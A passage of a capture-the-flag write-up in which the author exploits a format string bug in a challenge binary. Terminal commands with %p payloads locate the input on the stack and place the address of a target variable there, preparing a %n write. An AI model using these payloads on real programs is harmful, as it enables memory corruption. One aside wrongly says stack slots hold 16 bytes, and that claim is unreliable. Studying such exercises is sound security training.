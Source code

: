 - The input is on the 9th of the stack but in 64-bit the first 5 places of the stack are registers if not mistaken.

- So the input is actually on the 14th position of the stack.

3. Crafting payload

- First, verify the stack location of the input using `%p`.

```terminal
$ echo 'AAAAAAAA,%14$p' | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: AAAAAAAA,0x4141414141414141
sus = 0x21737573
You can do better!
```

- `%n` writes the total number of character printed so far to the target.

- So I need to input the address of the variable `sus` on the stack.

```terminal
$ echo '\x60\x40\x40\x00\x00\x00\x00\x00,%14$p' | ./vuln 
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: `@@
sus = 0x21737573
You can do better!
```

- This cannot work somehow, I suspect the problem is on the byte input (Maybe \x00 ?).

- Luckily it works when I inverted the payload.

```terminal
$ echo '%15$p,\x60\x40\x40\x00\x00\x00\x00\x00' | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 0x40,`@@
sus = 0x21737573
You can do better!
```

- But I expect the output to be 0x404060, the problem occur because `%15$p,` which are 6 bytes fill the stack too (Every stack stores 16 bytes).

```terminal
$ echo '%15$p,AA\x60\x40\x40\x00\x00\x00\x00\x00' | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 0x404060,AA`@@
sus = 0x21737573
You can do better!
```

- Now the whole payload is 16 bytes so finally 0x404060 is the output.

- So after this I always make the payload multiple of 8 and check using `%p`.
